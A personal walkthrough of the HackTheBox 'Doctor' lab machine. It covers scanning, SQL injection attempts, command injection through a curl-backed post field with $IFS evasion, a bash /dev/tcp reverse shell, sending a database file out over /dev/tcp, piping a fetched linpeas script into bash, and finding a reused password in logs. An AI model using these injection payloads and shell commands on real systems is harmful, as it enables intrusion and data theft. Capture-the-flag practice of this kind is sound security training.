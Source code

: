 ## This is the notes regarding the "doctor" machine on the HackTheBox.
----------------------------------------------------------------------
1. Like always we start with `nmap` scan:
    - `nmap -v -sC -sV -oA nmap/doctor 10.10.10.209` 

2. We take a look to the website, we check `index.php`, results in Not Found.
    Then we check the `index.html` which is fine. This is because so that we 
    can check if the website is a php one. But `index.php` is not found.

3. We run `gobuster` on the website to find if there is any possible endpoint:
    - `gobuster -u http://10.10.10.209 -w /usr/share/seclists/Disovery/Web-Content/raft-small-words.txt -o gobuster/root-dir.txt`

4. As `gobuster` runs, meanwhile the `nmap` is finished. We see that there are 3 ports open.
    22 for ssh, 80 for http, and 8089 which is a ssl/tcp Splunkd (?) httpd service.

5. We take a look to the https://10.10.10.209:8089 and we accept the certificate. 
    We see bunch of Splunkd reports. We see that some links require authentication. 
    We try the default Splunkd credentials, which is `admin` and `changeme`.
    We get nowhere!

6. We check the home page, see some links, there is nothing intersting, 
    except there is a message saying contact us and an email with the address, 
    `info@doctors.htb`. We add this hostname to our hostsfile with the IP address of `10.10.10.209`.
    we get a login page. We try `admin` and an SQL injection password real quick, `a' or 1=1-- -`
    A trick to show the password typed, is to go to Inspector and in the respective filed, 
    remove the type of the filled which is password. Now we check the login but to no avail!

7. Now we send the login request to Burp Suit. We intercept the login request, 
    send it repeater tab, get rid of the SQL injection part in the password section, 
    copy the request to a `login.req` file and try to SQL inject test it with `sqlmap`:
    - `sqlmap -r requests/login.req --batch`
    no test succeeds, so we increase the level and risk factors:
    - `sqlmap -r requests/login.req --batch --level 5 --risk 3`

8. While those sqlmaps work, we try to the "Forgot Password" functionality. 
    We try a an email, `admin@doctors.htb` and intercept it with Burp Suit. 
    When we forward the request we see a cross site reference token, 
    `cfrs_token` which will make the `sqlmap`'s work way harder.
    Then we put that `sqlmap` injection test in bed for a while.

9. We check the register funtionality, we register with a dummy user and email, and then login. 
    Only interesting thing to do is to post messages. 

10. We listen on port 80 and grab the header with `nc`:
    - `nc -lvnp 80` 
    then we post a dummy content and see that the User-Agent is `curl`.
    because the user-agent is `curl` then they are trying some bash commands
    to execute the content posting, then we can try some testing like running a server
    on our end and see if we can inject the post utility, (if this was something like python 
    requests we wouldn't probably try something like this) to test this we create a dummy file, 
    then run a server on that directory, here it is `www`, then try to grab it from our ip and 
    then redirect it to somewhere:
    - `echo "Don't sell out." > test`
    - `sudo python3 -m http.server 80`
    then in the post content we do:
    - `http://10.10.16.6/test -o /var/www/html/test`
    there is a weird behaviour that in ippsec video he can post a link, but here when we try
    to post a link, it get's denied!
    this behaviour is accounted for when we realize that we have to turn on Burp Suit proxy, 
    but the intercept is off(?)

11. When we try something like `http://10.10.16.6/$(whoami)` as the post content we get a get
    a `/web` 404 response, so the command got actually executed, probably on the backend something
    like `os.popen('curl $content')` is being run.

12. Note that we have a server open with python, like: `python3 -m http.server 80`. Now if we intercept the 
    post request with Burp Suit, we can change the content of the request, if we put in post content in the 
    Burp Suit, "http://10.10.16.6/$(which$IFS'curl')" we can see that in the python server, it tries to get 
    `/usr/bin/curl` now we can inject this post submit function, note that the way we came up to `$IFS` for 
    a space was by trial and error, the optin would be `+` which does not works, and the single quotes around 
    curl came also by trial and error, the way to test these is that usually these are special characters so 
    so by trial we came across them, other would be {} to test, but it does not work, since probably curly braces
    are sort of more special. Now we try to past the output of `test`file in our local machine to `/var/www/html/`
    and go to `doctors.htb/test` to see if we were successful. We put in the content of the post:
    - `&content=http://10.10.16.6/$(curl$IFS'-o'$IFS'/var/www/html/test'$IFS'http://10.10.16.6/test')`
    this way curl connects to our local python server, reads the test and writes in the html directory, 
    now we go to `10.10.10.209/test` and we see that it worked!

13. Now we put it a simple bash reverse shell in the test file:
    - `bash -c 'bash -i &> /dev/tcp/10.10.16.6/9001 0>&1'`
    and now we download this file to the server with this as the post content:
    - `http://10.10.16.6/$(curl$IFS'-o'$IFS'/var/www/html/test'$IFS'http://10.10.16.6/test')`
    if we go to 10.10.10.209/test , we can see the reverse shell one liner.

14. Now we have to execute this file from the server side, while we are listening on port 9001:
    - `nc -lvnp 9001`
    we put this as the post content:
    - `http://10.10.16.6/$(bash$IFS'/var/www/html/test')`
    which 10.10.16.6 is out ip address.
    we get the reverse shell!
    Now we do our usual spawn of tty:
    - `python3 -c 'impoty pty;pty.spawn("/bin/bash")'`
    - `export TERM=xterm`

15. Now that we have our shell in the machine, we look around we see a `blog` dirtectory, we look around and 
    see a `site.db` site database. we want to dump this file to a `.dump` with `sqlite3` but we don't have that
    on our machine, so we transfer that to our local machine like this:
    on the remote machine:
    - `cat site.db > /dev/tcp/10.10.16.6/9001`
    and on our local machine:
    - `nc -lvnp 9001 > site.db`
    Now we have our file! (this is dark arts!)

16. We dump the database:
    - `sqlite3 site.db .dump`
    we see that there is an `admin` user and a bcrypt hash of the password.]
    this is hard to crack, but nevertheless we try on the background with `hashcat`.

17. We run the `linpeas.sh` in the background also:
    - `curl 10.10.16.6:80/linpeas.sh | bash`
    while we have a server running on port 80 in the same directory as the `linpeas.sh` script.

18. In the output of the `linpeas.sh` in the readable files by root and by me but not by world, we 
    see bunch of log files, also there is a backup log, which is not usual, we take a look to that,
    `cat /var/log/apache2/backup` we see that it's a log of all the GET/POST requests to the server,
    we take a look to the content of the requests:
    - `cat backup | awk '{print $7}' | sort | uniq -c | sort -n`
    in one these requests we see that it's a GET for a `reset_password` action:
    - `/reset_password?email=Guitar123`
    we try this password for the sudo and shaun users that we got from the linpeas.sh output.
    - `su shaun` and with this password it works!



